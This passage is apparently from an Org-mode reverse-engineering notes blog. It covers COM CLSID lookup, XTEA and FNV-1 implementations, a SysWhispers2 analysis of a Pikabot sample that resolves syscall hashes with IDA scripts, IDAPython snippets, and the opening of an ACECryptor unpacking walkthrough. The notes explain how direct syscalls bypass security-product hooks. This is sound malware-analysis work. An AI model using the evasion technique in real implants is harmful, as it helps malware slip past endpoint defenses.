      "ILogonTrigger": "72DADE38-FAE4-4B3E-BAF4-5D009AF02B1C",
      "ISessionStateChangeTrigger": "754DA71B-4385-4475-9DD9-598294FA3641",
      "IEventTrigger": "D45B0167-9653-4EEF-B94F-0732CA7AF251",
      "ITimeTrigger": "B45747E0-EBA7-4276-9F29-85C5BB300006",
      "IDailyTrigger": "126C5CD8-B288-41D5-8DBF-E491446ADC5C",
      "IWeeklyTrigger": "5038FC98-82FF-436D-8728-A512A57C9DC1",
      "IMonthlyTrigger": "97C45EF1-6B02-4A1A-9C0E-1EBFBA1500AC",
      "IMonthlyDOWTrigger": "77D025A3-90FA-43AA-B52E-CDA5499B946A",
      "IBootTrigger": "2A9C35DA-D357-41F4-BBC1-207AC1B1F3CB",
      "IRegistrationTrigger": "4C8FEC3A-C218-4E0C-B23D-629024DB91A2",
      "IExecAction": "4C3D624D-FD6B-49A3-B9B7-09CB3CD3F047",
      "IExecAction2": "F2A82542-BDA5-4E6B-9143-E2BF4F8987B6",
      "IShowMessageAction": "505E9E68-AF89-46B8-A30F-56162A83D537",
      "IComHandlerAction": "6D2FD252-75C5-4F66-90BA-2A7D8CC3039F",
      "IEmailAction": "10F62C64-7E16-4314-A0C2-0C3683F99D40",
      "IPrincipal2": "248919AE-E345-4A6D-8AEB-E0D3165C904E",
      "ITaskSettings2": "2C05C3F0-6EED-4C05-A15F-ED7D7A98A369",
      "ITaskSettings3": "0AD9D0D7-0C7F-4EBB-9A5F-D1C648DCA528",
      "IMaintenanceSettings": "A6024FA8-9652-4ADB-A6BF-5CFCD877A7BA",
      "TaskHandlerPS": "F2A69DB7-DA2C-4352-9066-86FEE6DACAC9",
      "TaskHandlerStatusPS": "9F15266D-D7BA-48F0-93C1-E6895F6FE5AC",
  }

  def bytes_to_clsid(byte_data: bytes) -> str:
      if len(byte_data) != 16:
          raise ValueError("A CLSID must be 16 bytes long")

      # Unpack bytes according to CLSID structure
      part1, part2, part3, part4_and_part5 = struct.unpack("<IHH8s", byte_data[:16])

      # Split part4_and_part5 into two parts
      part4 = part4_and_part5[:2]
      part5 = part4_and_part5[2:8]
      part6 = byte_data[8:16]

      # Format the CLSID
      clsid = f"{part1:08X}-{part2:04X}-{part3:04X}-{part4.hex().upper()}-{part5.hex().upper()}{part6.hex().upper()}"
      return clsid

  def identify_object(raw_id: str) -> str:
      byte_data = bytes.fromhex(raw_id)
      r_clsid = bytes_to_clsid(byte_data)

      for name, clsid in CLSID.items():
          if clsid.lower() in r_clsid.lower():
              return f"{r_clsid} -> {name}"
      return ""

  identify_object("9F36870FE5A4FC4CBD3E73E6154572DD")
#+end_src

#+results: 
: 0F87369F-A4E5-4CFC-BD3E-73E6154572DDBD3E73E6154572DD -> TaskScheduler

To no overstock the script  all the CLSID are not included in it, however a script on this [[https://gist.github.com/lbpierre/47456aa3229afbf4bfb4b5c84551ca70][gist]] contains all
the extracted CLSID and RIID from [[https://github.com/wine-mirror/wine/tree/master][WINE]] repository is available. The snippet to extract the ID is the following one:

#+caption: snippet to extract the CLSID and RIID from wine/include
#+begin_src python
  import os
  clsids = {}

  # make sure to put the script at the root of wine repo
  for root_dir, _, filenames in os.walk("include/"):
      for filename in filenames:
  	with open(os.path.join(root_dir,  filename), "r") as f:
  	    content = f.read().split("\n")
  	    for line_nb, line in enumerate(content):
  		if "uuid(" in line:
  		    if "interface" in content[line_nb+2] or "coclass" in content[line_nb+2]:
  			clsid = line.strip().replace('uuid(', '').replace(')','')
  			name = content[line_nb+2].split()[1].strip()
  			clsids[name] = clsid

  print(clsids)
#+end_src

** XTEA - eXtended TEA
In cryptography, *XTEA* (*eXtended TEA*) is a block cipher designed to correct weaknesses in TEA.
The cipher's designers were David Wheeler and Roger Needham of the Cambridge Computer Laboratory,
and the algorithm was presented in an unpublished technical report in 1997
(Needham and Wheeler, 1997). It is not subject to any patents.

/Source: [[https://en.wikipedia.org/wiki/XTEA][wikipedia.org: XTEA]]/

- [[https://web.archive.org/web/20230224082426/https://code.activestate.com/recipes/496737/][web.archive.org: Python XTEA Encryption (Python recipe)]]
- [[https://github.com/Varbin/xtea][github.com: Varbin/xtea]]
  
*** Key features
- *Block size*: 64 bits;
- *Key size*: 128 bits;
- *Rounds*: 64 rounds of encryption, divided into pairs of Feistel rounds. 

*** Basic structure
- *Feistel network*: XTEA uses a Feistel structure where the input 64-bit block
   is split into two 32-bit halves (typically labeled =v0= and =v1=).
   In each round, one half is modified based on a combination of the other half,
    the key, and a round-dependent constant called the =delta=.
- *Round operations*: Each round uses /XOR/, addition, and /bitwise shifts/.
- *Key scheduling*: The 128-bit key is split into four 32-bit subkeys (=k0=, =k1=, =k2=, =k3=),
   which are used in a cyclic manner across the rounds.

*** Summary of process
1. Split the 64-bit input block into two 32-bit halves.
2. Perform 64 rounds of encryption using XOR, addition, and bitwise shifts.
3. Use the 128-bit key, broken into four subkeys, in a cyclic manner.
4. After 64 rounds, the two 32-bit halves are combined to produce the encrypted 64-bit block.

/NB: The delta constante value is defined as the result of 2^32 divided by the [[https://en.wikipedia.org/wiki/Golden_ratio][golden ratio]]./
#+begin_src python :results output :exports output
import math

_32bit_integer: float = 2**32
golden_ratio: float = (1 + math.sqrt(5)) / 2

print(f"delta = 0x{int(_32bit_integer // golden_ratio):x}")
#+end_src

#+RESULTS:
: delta = 0x9e3779b9

*** Implementation
Based on this public =C= implementation:
#+begin_src C
#include <stdint.h>

/* take 64 bits of data in v[0] and v[1] and 128 bits of key[0] - key[3] */

void encipher(unsigned int num_rounds, uint32_t v[2], uint32_t const key[4]) {
    unsigned int i;
    uint32_t v0=v[0], v1=v[1], sum=0, delta=0x9E3779B9;
    for (i=0; i < num_rounds; i++) {
        v0 += (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + key[sum & 3]);
        sum += delta;
        v1 += (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + key[(sum>>11) & 3]);
    }
    v[0]=v0; v[1]=v1;
}

void decipher(unsigned int num_rounds, uint32_t v[2], uint32_t const key[4]) {
    unsigned int i;
    uint32_t v0=v[0], v1=v[1], delta=0x9E3779B9, sum=delta*num_rounds;
    for (i=0; i < num_rounds; i++) {
        v1 -= (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + key[(sum>>11) & 3]);
        sum -= delta;
        v0 -= (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + key[sum & 3]);
    }
    v[0]=v0; v[1]=v1;
}
#+end_src

The following is an implementation of the XTEA algorithm in Python3:
#+begin_src python :results output :exports both
import struct

# ensure to remain in the size of unsigned long
rshift = lambda v, n: (v >> n) & 0xffffffff
lshift = lambda v, n: (v << n) & 0xffffffff

class XTEA:

    XTEA_DELTA: int  = 0x9e3779b9

    @staticmethod
    def encrypt_block(block: bytes, key: bytes, round: int = 64, endian: str = "!") -> bytes:
        """xtea 32 bit block data encryption"""

        assert len(key) == 16
        assert len(block) == 8

        v0, v1 = struct.unpack(endian + "2L", block)
        _key: list[int] = struct.unpack(endian + "4L", key)
        _sum: int = 0
        _delta: int = XTEA.XTEA_DELTA
        
        for i in range(round):
            v0 = (v0 + (((lshift(v1, 4) ^ rshift(v1, 5)) + v1) ^ (_sum + _key[_sum & 3]))) & 0xffffffff 
            _sum = (_sum + _delta) & 0xffffffff
            v1 = (v1 + (((lshift(v0, 4) ^ rshift(v0, 5)) + v0) ^ (_sum + _key[(_sum >> 11) & 3]))) & 0xffffffff

        return struct.pack(endian + "2L", v0, v1)

    @staticmethod
    def decrypt_block(block: bytes, key: bytes, round: int = 64, endian: str = "!") -> bytes:
        """xtea 32 bit block data decryption """

        assert len(key) == 16
        assert len(block) == 8

        v0, v1 = struct.unpack(endian + "2L", block)
        _key: list[int] = struct.unpack(endian + "4L", key)
        _delta: int = XTEA.XTEA_DELTA
        _sum: int = (_delta * round) & 0xffffffff

        for i in range(round):
            v1 = (v1 - (((lshift(v0, 4) ^ rshift(v0, 5)) + v0) ^ (_sum + _key[rshift(_sum, 11) & 3]))) & 0xffffffff
            _sum = (_sum - _delta) & 0xffffffff
            v0 = (v0 - (((lshift(v1, 4) ^ rshift(v1, 5)) + v1) ^ (_sum + _key[_sum & 3]))) & 0xffffffff

        return struct.pack(endian + "2L", v0, v1)

    @staticmethod
    def decrypt(ciphertext: bytes, key: bytes, round: int = 64, endian: str = "!") -> bytes:
        """xtea decryption of a complete ciphertext"""

        ciphertext = XTEA.pad(ciphertext, 8, b"\x00")
        return XTEA.__xtea_wrapper(XTEA.decrypt_block, ciphertext, key, round, endian)

    @staticmethod
    def encrypt(cleartext: bytes, key: bytes, round: int = 64, endian: str = "!") -> bytes:
        """xtea encryption of a complete cleartext"""

        cleartext = XTEA.pad(cleartext, 8, b"\x90")
        return XTEA.__xtea_wrapper(XTEA.encrypt_block, cleartext, key, round, endian)
    
    
    @staticmethod
    def __xtea_wrapper(xtea_function: callable, blob: bytes, key: bytes, round: int = 64, endian: str ="!") -> bytes:
        """decrypt a complete payload, key must be 16 bytes long"""

        assert len(key) == 16
        output: bytes = b""

        for block_index in range(0, len(blob), 8):
            output += xtea_function(blob[block_index: block_index + 8], key, round, endian)

        return output

    @staticmethod
    def pad(data: bytes, block_size: int = 8, padding_byte: bytes = b"\x90") -> bytes:

        if not len(data) % block_size:
            return data
    
        pad_size = len(data) + (block_size - len(data) % block_size)
        print(f"add {pad_size - len(data)} {padding_byte} byte(s) padding")
        data = data.ljust(pad_size, padding_byte)

        return data

# note that the key below will be padded to 16 bytes with null byte
# to fit the algorithm standard, the data to encrypt will also be
# padded to a multiple of 8 (here 2 padding bytes)
key = XTEA.pad(b"Hello there", 16, b"\x00")
cleartext = XTEA.pad(b"General Kenobi", 8, b"\x90")
print(f"encrypt `{cleartext}` with xTEA algorithm, key=`{key}`")
ciphertext = XTEA.encrypt(key=key, cleartext=cleartext, round=32)
print(f"ciphertext: {ciphertext.hex()}")
decrypted = XTEA.decrypt(key=key, ciphertext=ciphertext, round=32)
assert decrypted == cleartext
#+end_src

#+RESULTS:
: add 5 b'\x00' byte(s) padding
: add 2 b'\x90' byte(s) padding
: encrypt `b'General Kenobi\x90\x90'` with xTEA algorithm, key=`b'Hello there\x00\x00\x00\x00\x00'`
: ciphertext: 36939f6855904465a5dd89f714429dad

** FNV-1
**Fowler–Noll–Vo** is a hashing algorithm, whose speucode is:
#+begin_src 
algorithm fnv-1 is
    hash := FNV_offset_basis

    for each byte_of_data to be hashed do
        hash := hash × FNV_prime
        hash := hash XOR byte_of_data

    return hash 
#+end_src

There is a variant of this algorithm called FNV-1**a** where the XOR and the multiplication are switched.
The XOR operation is performed prior to the multiplication.

The Python implementation is as fallow:
#+begin_src python :results output :exports both
from enum import Enum
from typing import Union

class ARCH(Enum):
    """Supported hash architecture to handle FNV1
    PRIME, init offset and the bit mask for max value"""
    X32 = 32
    X64 = 64

class FNV1Variant(Enum):
    FNV1 = "FNV-1"    # Original FNV-1 (multiply, then XOR)
    FNV1A = "FNV-1A"  # FNV-1a variant (XOR, then multiply)
    

class FNV1Hash:
    """Implementation of FNV hash algorithms (FNV-1 and FNV-1a)
    for 32-bit and 64-bit architectures."""

     # FNV constants
    _CONSTANTS = {
        ARCH.X32: {
            'prime': 0x01000193,
            'init': 0x811C9DC5,
            'size': 2**32
        },
        ARCH.X64: {
            'prime': 0x00000100000001B3,
            'init': 0xCBF29CE484222325,
            'size': 2**64
        }
    }

    @classmethod
    def hash(cls,
             data: Union[bytes, str],
             arch: ARCH = ARCH.X32,
             variant: FNV1Variant = FNV1Variant.FNV1) -> int:
        """
        Compute the FNV hash of the input data

        Args:
            data: The data to hash, can be string or bytes
            arch: Architecture (32-bit or 64-bit)
            variant: FNV1 or FNV1A

        Returns: computed hash as an integer

        Raises:
            TypeError: if input data is not str or bytes
            ValueError: if ARCH is not supported
        """

        if isinstance(data, str):
            data = data.encode()
        elif not isinstance(data, bytes):
            raise TypeError(f"Input data must be str or bytes not: {type(data)}")

        if arch not in cls._CONSTANTS:
            raise ValueError(f"Unsupported architecture: {arch}")

        constants = cls._CONSTANTS[arch]
        hval = constants['init']
        fnv_prime = constants['prime']
        fnv_size = constants['size']

        if variant is FNV1Variant.FNV1A:
            # FNV-1A: XOR then multiply
            for byte in data:
                hval = hval ^ byte
                hval = (hval * fnv_prime) % fnv_size
        else: # FNV1
            # FNV-1: multiply then XOR
            for byte in data:
                hval = (hval * fnv_prime) % fnv_size
                hval = hval ^ byte

        return hval

class FNV1aHash:
    """Alias for FNVHash class with FNV-1a variant."""
    
    @classmethod
    def hash(cls, data: Union[bytes, str], arch: ARCH = ARCH.X32) -> int:
        """Calculate the FNV-1a hash of input data."""
        return FNV1Hash.hash(data, arch, FNV1Variant.FNV1A)

test_input = "Lotus"
    
hash_32_fnv1a = FNV1aHash.hash(test_input)
hash_32_fnv1 = FNV1Hash.hash(test_input)

print(f"FNV-1a (32-bit) of '{test_input}' is 0x{hash_32_fnv1a:08x}")
print(f"FNV-1  (32-bit) of '{test_input}' is 0x{hash_32_fnv1:08x}")
#+end_src

#+RESULTS:
: FNV-1a (32-bit) of 'Lotus' is 0xeac834bc
: FNV-1  (32-bit) of 'Lotus' is 0x8861a036

* DONE SysWhispers2 analysis 🙊                                         :@RE:syscall:
SCHEDULED: <2024-03-10 Sun>
:PROPERTIES:
:EXPORT_FILE_NAME: syswhispers2
:EXPORT_HUGO_ALIASES: /notes/syswhispers2/
:END:

#+begin_description
This helper comes in handy when reversing samples that use SysWhispers2
to recover ntdll call from SysWhispers2 hashes.
#+end_description



** Readme.md
[[https://github.com/jthuraisamy/SysWhispers2][SysWhispers]]
#+begin_sidenote
[[https://github.com/jthuraisamy/SysWhispers2][github.com/jthuraisamy/SysWhispers2]]
#+end_sidenote
helps with evasion by generating header/ASM files implants
can use to make direct system calls.

Various security products place hooks in user-mode API functions which allow
them to redirect execution flow to their engines and detect for suspicious behaviour.
The functions in =ntdll.dll= that make the syscalls consist of just a few
assembly instructions, so re-implementing them in your own implant can bypass the
triggering of those security product hooks. This technique was popularized by [[https://twitter.com/Cneelis][@Cn33liz]]
and his [[https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/][blog]] post has more technical details worth reading.

** Analysis
VMray recently [[https://twitter.com/vmray/status/1762600614163284466][tweeted]] that [[https://malpedia.caad.fkie.fraunhofer.de/details/win.pikabot][Pikabot]] incorporates SysWhispers2
This note offers a step-by-step guide to identify the syscalls made by malware
that utilizes SysWhispers2, a technique that can be applied in any situation
where SysWhispers2 is present.
#+begin_sidenote
/NB: Tools: IDA decompiler and xdbg/
#+end_sidenote

The analysis began with the sample =PERFERENDISF.jar= shared in VMRay tweet, which is available on Malware Bazaar, with the
SHA-256: [[https://bazaar.abuse.ch/sample/d26ab01b293b2d439a20d1dffc02a5c9f2523446d811192836e26d370a34d1b4/][d26ab01b293b2d439a20d1dffc02a5c9f2523446d811192836e26d370a34d1b4]]

We skipped to the stage 2 of the Pikabot loader, which employs **SysWhispers2** to load the
malware's core. The malware executes the following steps to perform a direct syscall:
1. Saves the return address;
2. Resolves the syscall ID from a hash (a behavior related to SysWhispers2);
3. Retrieves a stub to invoke the syscall based on the host architecture;
4. Executes the syscall and resumes program execution.

#+name: fig__post_subtrees_collapsed
#+caption: Function used to made the direct syscall


Here are examples of direct syscalls made by the malware.

#+name: fig__post_subtrees_collapsed
#+caption: Example of SW2Syscall stubs


To operate SysWhispers2, it is necessary to populate the =_SW2_SYSCALL_LIST= structure,
which is an array containing correspondences between hashes and =ntdll.dll= addresses.
According to the file =base.h=
#+begin_sidenote
[[https://github.com/jthuraisamy/SysWhispers2/blob/main/data/base.h][jthuraisamy/SysWhispers2/blob/main/data/base.h]]
#+end_sidenote
the two structures are:

#+caption: SysWhispers2 syscall entry
#+begin_src c++
struct _SW2_SYSCALL_ENTRY
{
    DWORD Hash;
    DWORD Address;
}
#+end_src

The =Hash= field contains a hash value corresponding to a particular syscall,
and the =Address= field contains the address of the corresponding function in =ntdll.dll=.

#+caption: SysWhispers2 syscall list
#+begin_src c++
struct _SW2_SYSCALL_LIST
{
    DWORD Count;
    SW2_SYSCALL_ENTRY Entries[SW2_MAX_ENTRIES];
} 
#+end_src

The malware stores a pointer to the syscall list as a **global** variable,
which is convenient when we later retrieve the populated data with the debugger.

#+name: fig__post_subtrees_collapsed
#+caption: Reference of the _SW2_SYSCALL_LIST structure


According to the [[https://github.com/jthuraisamy/SysWhispers2/blob/main/data/base.c#L128-L141][source code]]
#+begin_sidenote
See function =SW2_GetSyscallNumber= line 131.
#+end_sidenote
the function used to get the address in ntdll from hash
ensure that =_SW2_SYSCALL_LIST= structure is populated.

The most "challenging" task is now to identify a call to =SW2_GetSyscallNumber=
and set a breakpoint after the =SW2_PopulateSyscallList= function, at which point a dump
of the list can be made.

#+name: fig__post_subtrees_collapsed
#+caption: Hex memory view of the _SW2_SYSCALL_LIST structure populated


Here is a clearest visualization of the memory using [[https://github.com/WerWolv/ImHex/][ImHex]].

#+name: fig__post_subtrees_collapsed
#+caption: Visualization of the _SW2_SYSCALL_LIST structure populated


** Mapping Hashes to Syscalls
First, the hashes (/SW2/) must be listed, and then the hash must be resolved to obtain the syscall number.

The following IDA script lists the hashes by retrieving the first (single one) function argument:
#+begin_src python
s2w_direct_call_addr = 0x04111000

for x in XrefsTo(s2w_direct_call_addr):
    syscall_hash = get_wide_dword(x.frm - 0x4) # First args of the function
    print(f"call to SW2 at:0x{x.frm:x} hash:0x{syscall_hash:x}")
#+end_src

Which gives the following hashes: =0x312294161=, =0x228075779=, =0x2553518241=,
=0x3309424832=, =0x1605204094=, =0x2236128452=, =0x1881308343=, =0x3327455464=,
=0x3319017158=, =0x2249560824=, =0x397169428=, =0x4066245879=, =0x2629212700=.

Subsequently, the =_SW2_SYSCALL_LIST= structure was parsed to obtain the address
corresponding to each of the aforementioned hashes.
#+begin_src python
  import struct

  with open("syscall_entries.dmp", "rb") as f:
      # offset 0x8 is used to remove the DWORD Count of the struct _SW2_SYSCALL_LIST
      SW2_syscallList_raw = f.read()[0x8:]

  NTDLL_BASE_ADDRESS = 0x77DA0000 # specifics for each sample 
  SW2_Entrie = namedtuple("SW2_Entrie", ["hash", "address"])
  SW2_syscallList: List = []

  for hash, addr_offset in struct.iter_unpack("<Li", SW2_syscallList_raw):
      print(f"0x{hash:x} 0x{addr_offset + NTDLL_BASE_ADDRESS:x}")
      SW2_syscallList.append(SW2_Entrie(hash, addr_offset + NTDLL_BASE_ADDRESS))
#+end_src

Next, take a snapshot of ntdll (/to avoid rebasing the DLL base address/)
to list the export functions of =ntdll.dll= and their corresponding addresses.

The subsequent step involves taking a snapshot of =ntdll.dll= to obtain a list
of its export functions along with their corresponding address.
/This approach eliminates the need to rebase the DLL base address./

#+begin_src python
import pefile

def get_section(pe: pefile.PE, section_name: str) -> pefile.SectionStructure:
    """return section by name, if not found raise KeyError exception."""
    for section in filter(
        lambda x: x.Name.startswith(section_name.encode()), pe.sections
    ):
        return section
    raise KeyError(f"{section_name} not found")

PE_FILE = "ntdll.dll"
pe = pefile.PE(PE_FILE)

text = get_section(pe, ".text")
image_base = pe.OPTIONAL_HEADER.ImageBase
section_rva = text.VirtualAddress

mapping_syscall_id_fn = []
# Build a corresponding address and ntdll function name
for exp in pe.DIRECTORY_ENTRY_EXPORT.symbols:
    mapping_syscall_id_fn.append((pe.OPTIONAL_HEADER.ImageBase + exp.address, exp.name))
#+end_src

Finally, **map** the addresses populated in the =_SW2_SYSCALL_ENTRIES= structure
with the corresponding addresses exported from =ntdll.dll= to obtain their export names.

#+begin_src python
# hashes obtained in IDA
hashes = [
    0x129D3B11,
    0xD982903,
    0x983398A1,
    0xC541D0C0,
    0x5FAD787E,
    0x85489CC4,
    0x70227CB7,
    0xC654F0E8,
    0xC5D42EC6,
    0x861592F8,
    0x17AC5314,
    0xF25DFCF7,
    0x9CB69A1C,
]

def find_syscall_by_hash(hash) -> Optional[SW2_Entrie]:
    for syscall in SW2_syscallList:
        if syscall.hash == hash:
            return syscall

for addr, name in mapping_syscall_id_fn:
    for syscall in map(find_syscall_by_hash, hashes):
        if addr == syscall.address:
            print(f"0x{syscall.hash:x} <-> {name.decode()}")
            break
#+end_src

Output for this sample of Pikabot is:
#+begin_src txt
0xc5d42ec6 <-> NtAllocateVirtualMemory
0x129d3b11 <-> NtClose
0x85489cc4 <-> NtCreateUserProcess
0x70227cb7 <-> NtFreeVirtualMemory
0x17ac5314 <-> NtGetContextThread
0x5fad787e <-> NtOpenProcess
0xc541d0c0 <-> NtQueryInformationProcess
0x983398a1 <-> NtQuerySystemInformation
0xc654f0e8 <-> NtReadVirtualMemory
0x9cb69a1c <-> NtResumeThread
0xf25dfcf7 <-> NtSetContextThread
0xd982903 <-> NtSystemDebugControl
0x861592f8 <-> NtWriteVirtualMemory
0xc5d42ec6 <-> ZwAllocateVirtualMemory
0x129d3b11 <-> ZwClose
0x85489cc4 <-> ZwCreateUserProcess
0x70227cb7 <-> ZwFreeVirtualMemory
0x17ac5314 <-> ZwGetContextThread
0x5fad787e <-> ZwOpenProcess
0xc541d0c0 <-> ZwQueryInformationProcess
0x983398a1 <-> ZwQuerySystemInformation
0xc654f0e8 <-> ZwReadVirtualMemory
0x9cb69a1c <-> ZwResumeThread
0xf25dfcf7 <-> ZwSetContextThread
0xd982903 <-> ZwSystemDebugControl
0x861592f8 <-> ZwWriteVirtualMemory
#+end_src

The full script is available on this [[https://gist.github.com/lbpierre/c9c39de0c32bb96a5e12556f75744d42][gist]], along with the /S2W_SyscallList.dmp/
file in hexadecimal format. To use the dump, replace lines 32 to 34 with the following:

#+begin_src python
  import binascii
  with open("SW2_SyscallList_hex.dmp", "r") as f:    
      # offset 0x8 is used to remove the DWORD Count of the struct _SW2_SYSCALL_LIST
      SW2_syscallList_raw = binascii.unhexlify(f.read())[0x8:]
#+end_src

** Resources
- https://github.com/jthuraisamy/SysWhispers2
- https://twitter.com/vmray/status/1760647508038947080
- https://gist.github.com/lbpierre/c9c39de0c32bb96a5e12556f75744d42
- https://joshfinley.github.io/posts/2020-04-17-sycall-dumping/

* DONE IDAPython Snippets 🔩                                           :@IDA:python:
SCHEDULED: <2024-03-17 Sun>
:PROPERTIES:
:EXPORT_FILE_NAME: idasnippets
:EXPORT_HUGO_ALIASES: /notes/idasnippets/
:END:

#+begin_description
A collection of reusable IDAPython scripts for everyday reverse engineering tasks.
#+end_description

** Type of instruction
Decompile an instruction at a given address =ea= (/below/) and print
the type of memory if the instruction is a =mov=.

#+begin_src python
  insn = idaapi.insn_t()
  length = idaapi.decode_insn(insn, ea)
  if insn.itype == ida_allins.NN_mov:
      if insn.Op1.type == ida_ua.o_reg and insn.Op2.type == ida_ua.o_mem:
	  print(f"{insn.Op1.type} is reg and {insn.Op2.type} is mem")
#+end_src

** cdecl function parameters
Get the value of a function argument that is moved into a register before
the function call (for instance for function with the =cdecl= convention).

In the example below it reads the value of the second argument (register =edx=)
of the function at address =0x1234= and saved its value in a list named =arguments=.
#+begin_src python
import idc
import idautils

resolve_func_addr = 0x1234 # replace by the address of the function

arguments = []

#+begin_src python
for ref in idautils.XrefsTo(resolve_func_addr):
    for ea in idautils.Heads(ref.frm - 10, ref.frm):
        insn = idaapi.insn_t()
        length = idaapi.decode_insn(insn, ea)
        mnemonic = print_insn_mnem(ea)
        if mnemonic == "mov":
            operand_1 = print_operand(ea, 0)
            fn_hash = idc.get_operand_value(ea, 1)          
            if operand_1 == "edx":
                print(f"0x{ea:<10x} | {mnemonic} {operand_1} 0x{fn_hash:x}")
                arguments.append(fn_hash)

for arg in arguments:
    print(f"0x{arg:x}", end=", ")
#+end_src

* DONE ACECryptor unpacking walktrough 📦                       :@RE:crypter:
SCHEDULED: <2024-11-04 Mon>
:PROPERTIES:
:EXPORT_FILE_NAME: acecryptor-walkthrough
:END:

#+begin_description
*ACECryptor* is a crypter utilized by numerous cybercriminals. The service has been observed dropping various
types of malicious software, including Remote Access Trojans (RATs), stealers, and loaders
such as RedLine, SmokeLoader, and GCleaner, among others. This article provides a hands-on,
step-by-step walkthrough of the process to unpack ACECryptor.
#+end_description

The crypter is composed of three stages, for this analysis IDA and xdbg will be used.

The examined sample is:
